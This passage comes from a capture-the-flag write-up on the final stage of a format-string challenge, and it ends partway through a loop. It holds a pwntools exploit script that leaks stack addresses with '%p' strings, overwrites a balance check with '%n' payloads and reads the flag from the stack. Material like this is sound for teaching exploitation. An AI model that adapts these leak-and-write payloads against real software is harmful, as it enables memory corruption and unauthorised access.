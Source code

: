 ### Format string 3:
Great job guys! Final part is damn simple just call the `buy_repair_kit()` function which now satify bal == 200 and call use_tape(), Here the flag is opened and just read into the stack followed by an unsafe printf leading to format string exploitation. Just leak most of the stack and get the flag. GG

### Full Exploit Script:
```py
#!/usr/bin/env python3
from pwn import *

context.update(arch='x86')
exe = './chall'
elf = ELF("./chall")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()
# p = remote("gc1.eng.run", 32309)

#Leaking the bal variable address
p.recv()

p.sendline(b"1")
p.recvuntil(b"like to check your leaks?")
p.sendline(b"-%p"*50)
p.recvline()
leak = p.recvline()
leak = leak.split(b"-")

baladd = int(leak[21], 16)+10974
log.info(f"bal address: {hex(baladd)}")

#Over write bal with 200 to bypass the check
p.sendline(b"1")
p.recv()
p.sendline(b"%99c%9$n%90c%9$n%11c%9$n" + p64(baladd))
p.recv()

#Leak the flag from the stack since its opened
p.sendline(b"3")
p.recvuntil(b"feedback!")
p.sendline(b"%16$p-%17$p-%18$p-%19$p-%20$p-%21$p-%22$p")
p.recvline()

#Change the hex flag to ascii
flag = p.recvline().split(b"-")
final = ""

for hexval in flag:
```
